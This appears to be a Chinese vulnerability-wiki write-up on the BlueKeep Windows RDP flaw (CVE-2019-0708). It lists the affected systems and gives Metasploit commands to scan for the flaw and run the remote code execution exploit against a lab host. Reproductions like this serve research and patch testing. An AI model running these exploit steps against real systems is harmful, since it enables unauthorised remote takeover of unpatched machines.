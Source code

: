 （CVE-2019-0708） Windows 远程溢出漏洞
======================================

一、漏洞简介
------------

Windows再次被曝出一个破坏力巨大的高危远程漏洞CVE-2019-0708。攻击者一旦成功利用该漏洞，便可以在目标系统上执行任意代码，包括获取敏感信息、执行远程代码、发起拒绝服务攻击等等攻击行为。而更加严重的是，这个漏洞的触发无需用户交互，攻击者可以用该漏洞制作堪比2017年席卷全球的WannaCry类蠕虫病毒，从而进行大规模传播和破坏。

二、漏洞影响
------------

Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP

三、复现过程
------------

进入msf、搜索0708

**msfconsole**
**search 0708**

使用扫描模块（scanner）

![20191003195616647.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId24.png)

**use auxiliary/scanner/rdp/cve\_2019\_0708\_bluekeep**
**show options**
**set rhost 192.168.237.131 //这里的ip填写自己win7主机的ip**
**run**

![1590935936179.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId25.png)

![1590935980644.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId26.png)

使用利用模块（exploit）

**use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce**
**show targets //选择目标主机类型 这里我选择了7601 -vmware 15**
**set target 4**
**set rhost 192.168.237.131**
**run**

![1590936148050.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId27.png)

![1590936192070.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId28.png)

![1590936228779.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId29.png)

复现成功。
